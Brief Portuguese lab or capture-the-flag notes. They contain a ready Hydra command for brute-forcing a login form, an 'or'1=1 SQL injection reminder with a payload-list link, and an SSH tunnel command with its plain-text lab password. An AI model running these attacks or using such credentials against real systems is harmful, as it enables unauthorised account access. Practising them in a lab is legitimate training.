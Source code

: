 # Comando Hydra para Ataque Força Bruta em um Formulário

```
hydra -L usuarios -P senhas -s 1234 127.0.0.1 http-post-form "/login.php:login=^USER^&senha=^PASS^:incorretos"
```

![alt text](img_hydra_form.png)

Onde login e senha vieram do formulário em questão, que tem os inputs com o name usando esses campos.  

* Pasta com os dicionários de senha: /usr/share/wordlists/metasploit

* Lembrar de testar SQL Injection também, como: 'or'1=1
* https://github.com/payloadbox/sql-injection-payload-list/tree/master/Intruder/exploit

* Lembrar de analisar a aba Inspecionar para procurar dicas

# Comando para Redirect SSH
`ssh -L 1234:127.0.0.1:9090 ckp_06@192.168.100.10` - Senha ckp_06

* Com isso será possível direcionar ataques hydra e acessar via localhost:1234 a porta 9090

# Exploit DB
Site de vulnerabilidades de todos os sistemas do mundo.  
